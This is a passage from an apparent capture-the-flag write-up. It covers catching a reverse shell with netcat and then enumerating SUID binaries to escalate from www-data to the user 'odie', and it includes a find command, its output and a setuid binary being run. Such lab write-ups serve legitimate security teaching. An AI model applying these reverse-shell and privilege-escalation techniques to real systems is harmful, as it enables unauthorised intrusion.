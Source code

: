 And now, just listen on your 3615 TCP port using `netcat`:


![](/img/articles/realgsmoveinsilencelikelasagna/red_14.gif)


It's possible to have a fully interactive shell from this shitty one, using Python and other trick: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

I ever presented these tricks in __Santhacklaus__ CTF writeups: https://maki.bzh//courses/blog/writeups/santhacklaus2018/#exploitation-1

But I love GIFs, so here is again :D


![](/img/articles/realgsmoveinsilencelikelasagna/red_15.gif)


### From www-data to odie

There is no `sudo`, no vulnerable processes, but let's take a look about suid binaries and scripts:

```bash
rev-shell $ find / -perm -4000 | xargs grep -v "Permission denied"
Binary file /usr/lib/openssh/ssh-keysign matches
Binary file /usr/lib/policykit-1/polkit-agent-helper-1 matches
Binary file /usr/lib/dbus-1.0/dbus-daemon-launch-helper matches
Binary file /usr/lib/eject/dmcrypt-get-device matches
Binary file /usr/local/bin/ensibsproject matches
Binary file /usr/bin/chsh matches
Binary file /usr/bin/newgrp matches
Binary file /usr/bin/gpasswd matches
Binary file /usr/bin/pkexec matches
Binary file /usr/bin/chfn matches
Binary file /usr/bin/passwd matches
Binary file /usr/bin/sudo matches
Binary file /bin/umount matches
Binary file /bin/su matches
Binary file /bin/ping matches
Binary file /bin/mount matches

rev-shell $ ls -la /usr/local/bin/ensibsproject
-rwsrwsr-t 1 odie odie 8640 Dec 27 05:30 /usr/local/bin/ensibsproject
```

Olala, by chance, Odie puts sticky bit on a binary! What a chance we have!


![](https://media.giphy.com/media/l0Iy8OYsxXo4PlCIU/giphy.gif)


Ok, now, what this binary is doing:

```bash
rev-shell $ /usr/local/bin/ensibsproject

 _____           _ _                                  _    
| ____|_ __  ___(_) |__  ___   ___  ___  ___ _ __ ___| |_  
|  _| | '_ \/ __| | '_ \/ __| / __|/ _ \/ __| '__/ _ \ __| 
| |___| | | \__ \ | |_) \__ \ \__ \  __/ (__| | |  __/ |_  
|_____|_| |_|___/_|_.__/|___/_|___/\___|\___|_|  \___|\__| 
 _ __  _ __ ___ (_) ___  ___| |_                           
| '_ \| '__/ _ \| |/ _ \/ __| __|                          
| |_) | | | (_) | |  __/ (__| |_                           
| .__/|_|  \___// |\___|\___|\__|                          
|_|           |__/                                         

Traceback (most recent call last):
  File "/home/odie/project.py", line 16, in <module>
    import requests
```